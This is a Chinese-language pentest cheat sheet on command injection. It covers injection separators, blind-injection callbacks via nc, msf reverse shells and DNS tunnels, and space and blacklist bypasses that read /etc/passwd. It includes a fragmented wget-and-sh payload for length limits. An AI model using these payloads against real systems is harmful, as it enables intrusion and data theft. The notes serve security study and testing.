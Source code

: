 命令注入
========================================

常见注入方式
----------------------------------------
- 分号分割
- ``\r\n`` ``%d0%a0`` 换行 
- 反引号解析

无回显
----------------------------------------
- 利用bash命令并在本地进行nc监听结果查看回连日志
- msf反向回连
- DNS隧道

常见绕过方式
----------------------------------------

空格绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``<`` 符号 ``cat<123``
- ``\t`` / ``%09``
- ``${IFS}`` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

黑名单绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``a=l;b=s;$a$b``
- base64 `` `echo "bHM=" | base64 -d ` ``
- ``/?in/?s`` => ``/bin/ls``
- 连接符 ``cat /etc/pass'w'd``
- 未定义的初始化变量 ``cat$x /etc/passwd``

长度限制绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    >wget\
    >foo.\
    >com
    ls -t>a
    sh a

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行
直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令
这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看)
如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向
而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

常用符号  
----------------------------------------

命令分隔符
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``%0a`` / ``%0d`` / ``\n`` / ``\r``
- ``;``
- ``&`` / ``&&``

通配符
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``*`` 0到无穷个任意字符
- ``?`` 一个任意字符
- ``[ ]``  一个在括号内的字符，e.g. ``[abcd]``
- ``[ - ]``  在编码顺序内的所有字符
- ``[^ ]`` 一个不在括号内的字符
